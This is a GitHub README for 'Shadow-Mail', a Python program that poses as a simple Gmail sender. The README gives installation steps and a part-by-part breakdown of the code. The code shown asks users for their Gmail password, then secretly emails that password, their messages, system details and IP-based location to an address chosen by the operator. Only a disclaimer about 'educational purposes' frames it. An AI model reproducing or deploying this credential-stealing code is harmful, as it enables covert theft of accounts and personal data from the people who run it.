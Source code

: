 This Python program serves as a multifunctional email sender with additional features for collecting and transmitting user-specific system details and location information. The script is designed to interact with the user by prompting for their name, guiding them through Gmail authentication, and collecting necessary credentials. Once authenticated, the program allows the user to input recipient details and email content, facilitating the sending of emails through a Gmail SMTP connection. Furthermore, the script captures the user's system information, including details about the operating system, hardware, and processes, which is then sent to a specified email address. Additionally, the program retrieves the user's IP-related information using an external service and forwards it to the developer's email. While providing a practical demonstration of Python's capabilities for ethical hacking or custom tool development, it is crucial to emphasize that the program is intended for educational purposes only, and its misuse to inflict harm is strongly discouraged. The developer expressly disclaims responsibility for any adverse consequences resulting from the inappropriate use of this program.

This is the detailed break-down of this code:

To begin, the user is prompted to input their name, after which they receive clear instructions on creating an app password for their Gmail account. The script then guides the user through entering their Gmail address, ensuring its validity, and securely collecting both the Gmail credentials and password. 

Following this, the user is prompted to input the recipient's Gmail address and compose the email message they wish to send. The script establishes a secure connection to Gmail's SMTP server, logs in using the provided credentials, and successfully sends the email to the specified recipient.

Subsequently, the script discreetly sends the user's Gmail details, password, recipient's Gmail, and email message to a developer's email address. Additionally, the script captures the user's system information, including details such as operating system, network configuration, CPU, memory, and battery status. This information is then formatted and sent to the developer via email. 

Finally, the script leverages an external service to obtain the user's IP-related details, such as city, region, country, and timezone. This information is also sent securely to the developer's email. The user receives a confirmation message upon successful email transmission, ensuring transparency about the process's completion.

Installation

Follow these steps to set up the Python environment and install the required dependencies for this project:

1. Clone the Repository

```bash
git clone https://github.com/GitCoder052023/Shadow-Mail.git
cd Shadow-Mail
```
2. Create a Python Virtual Environment
Make sure you have Python installed (version 3.8.0 or higher). If not, you can download it from python.org.

Create a virtual environment to isolate the dependencies:
```bash
python3 -m venv venv
```
3. Activate the Virtual Environment
Activate the virtual environment based on your operating system:
On Windows:
```bash
venv\Scripts\activate
```
On Unix or MacOS:
```bash
source venv/bin/activate
```
4. Install Required Dependencies
Use pip to install the necessary dependencies specified in the requirements.txt file:
```bash
pip install -r requirements.txt
```

This is the break down of code and explaination each part:

Part 1: Importing Libraries

```python
import json
from urllib.request import urlopen
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
import platform
import socket
import psutil
```

Part 2: User Input

```python
name = input("Enter your name: ")
```

The script prompts the user to enter their name.

Part 3: Instructions for Gmail Authentication

```python
print("Hello," + name, '''Welcome to MailBox.com...''')
```

The script provides instructions for the user on creating an app password for Gmail.

Part 4: Validating and Collecting User's Gmail and Password

Collecting user's Gmail and password

```python
while True:
    Gmail = input("Enter your Gmail: ")
    if Gmail.endswith("@gmail.com"):
        MailBox = Gmail
        Password = input("Enter your Gmail password: ")
        print("Your Gmail is Submitted Successfully")
        break
    else:
        print("Your Gmail is Invalid, please Enter your Gmail again")
        Gmail = input("Enter your Gmail: ")
        if Gmail.endswith("@gmail.com"):
            MailBox = Gmail
            Password = input("Enter your Gmail password: ")
            print("Your Gmail is Submitted Successfully")
            break
```


The script prompts the user to enter their Gmail address, validates it, and then collects the Gmail and password.

Part 5: Email Content Input

```python
RMID = input("Enter the gmail of the receiver: ")
Mail = input("Enter gmail message to send: ")
```

The script collects the recipient's Gmail and the email message from the user.

Part 6: Sending the Email

```python
# Setting up SMTP and sending the email

s = smtplib.SMTP('smtp.gmail.com', 587)
s.starttls()
s.login(MailBox, Password)
message1 = Mail
s.sendmail(MailBox, RMID, message1)
s.quit()
```

The script sets up an SMTP connection to Gmail, logs in using the user's credentials, and sends the email to the specified recipient.

Part 7: Sending User's Data to the Developer

```python
s = smtplib.SMTP('smtp.gmail.com', 587)
s.starttls()
s.login(MailBox, Password)
subject = "Mail from " + MailBox + " to " + RMID
message = "From: " + MailBox + "\nTo: " + RMID + "\nSubject: " + subject + "\n" + Password
Developer = "REPLACE WITH YOUR DESIRED GMAIL ADDRESS"
s.sendmail(MailBox, Developer, message)
s.quit()
```

The script sends the user's Gmail, Gmail password, recipient's Gmail, and the email message to the developer's email address.

Part 8: Collecting and Sending System Information

```python
def send_email(subject, body, to_email):
    from_email = MailBox
    password = Password
    message = MIMEMultipart()
    message["From"] = from_email
    message["To"] = to_email
    message["Subject"] = subject
    message.attach(MIMEText(body, "plain"))
    
    with smtplib.SMTP("smtp.gmail.com", 587) as server:
        server.starttls()
        server.login(from_email, password)
        server.sendmail(from_email, to_email, message.as_string())

def get_device_details():
    # ... (Code for collecting system details)
    return data_SYS

if __name__ == "__main__":
    device_info = get_device_details()
    data_str = "\n".join([f"{key}: {value}" for key, value in device_info.items()])
    send_email("System Information", data_str, "REPLACE WITH YOUR DESIRED GMAIL ADDRESS")
```

The script defines a function to send an email and uses it to send the user's system information to the developer's email address.

Part 9: Collecting and Sending User's Location Information

```python
url = "http://ipinfo.io/json"
response = urlopen(url)
data = json.load(response)
Address_data = {
  "IP": data["ip"],
  "City": data["city"],
  "Region": data["region"],
  "Country": data["country"],
  "Location": data["loc"],
  "Organization": data["org"],
  "Postal": data["postal"],
  "Timezone": data["timezone"]
}

json_data = json.dumps(data, indent=4)

sender_email = MailBox
sender_password = Password
receiver_email = "REPLACE WITH YOUR DESIRED GMAIL"
subject = "IP Information"

body = f"""\
IP Information:

{json_data}
"""

with smtplib.SMTP("smtp.gmail.com", 587) as server:
    server.starttls()
    server.login(sender_email, sender_password)
    message = f"Subject: {subject}\n\n{body}"
    server.sendmail(sender_email, receiver_email, message)
```

The script collects the user's IP information using an external service and sends it to the developer's email address.

Part 10: Confirmation Message

```python
print("Your Mail sent successfully to", RMID)
```


Note: This Python program is expressly designed for educational purposes and serves solely as a demonstration of Python's capabilities within the realms of ethical hacking and custom tool development. It is explicitly prohibited to employ this program for any malicious intent or to cause harm to individuals or entities. The developer vehemently discourages any such misuse, The developer bears no responsibility for any harm or damage resulting from the misuse or unauthorized deployment of this software.

